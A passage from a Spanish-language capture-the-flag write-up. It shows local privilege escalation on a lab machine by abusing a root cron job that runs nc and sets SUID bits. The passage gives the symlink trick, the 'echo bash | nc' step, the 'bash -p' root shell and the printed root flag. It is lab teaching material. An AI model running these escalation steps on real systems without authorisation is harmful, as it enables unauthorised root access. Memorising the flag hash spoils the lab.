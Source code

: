 Veremos que se esta realizando lo siguiente:

```
2025/04/14 10:05:01 CMD: UID=0     PID=12766  | /usr/sbin/CRON -f 
2025/04/14 10:05:01 CMD: UID=0     PID=12767  | /usr/sbin/CRON -f 
2025/04/14 10:05:01 CMD: UID=0     PID=12768  | /bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi
```

Vemos que esta leyendo `root` el `passwd.txt` de la carpeta de la `home` de nuestro usuario, pero como no existe y tambien vemos que hay un `halder.txt` en la carpeta de `root` vamos a crear un enlace simbolico hacia nuestra `home` de la siguiente forma:

```shell
ln -s /root/.local/helder.txt /home/helder/passwd.txt
```

Ahora si leemos `passwd.txt` veremos que no nos deja, pero tambien vemos que se esta ejecutando `nc` por el puerto `10000` mediante `root` pero tambien vemos que se esta estableciendo permisos `SUID` al `out` de la carpeta de `root` por lo que vamos a probar si podremos establecer los permisos a la `bash` enviandoselo por `nc`:

```shell
echo 'bash' | nc -lvnp 10000
```

Info:

```
listening on [any] 10000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44944
```

Veremos que hizo conexion, ahora vamos a ver los permisos de la `bash` a ver si ha funcionado.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Veremos que ha funcionado por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
helder@ripper:~$whoami
root
helder@ripper:~$id
uid=1001(helder) gid=1001(helder) euid=0(root) egid=0(root) groups=0(root),1001(helder)
```

Por lo que vemos ya tendremos los privilegios de `root` ahora leeremos la `flag` de `root`.

> root.txt

```
e28f578a17a5f99c0381c4b689d96f9f
```
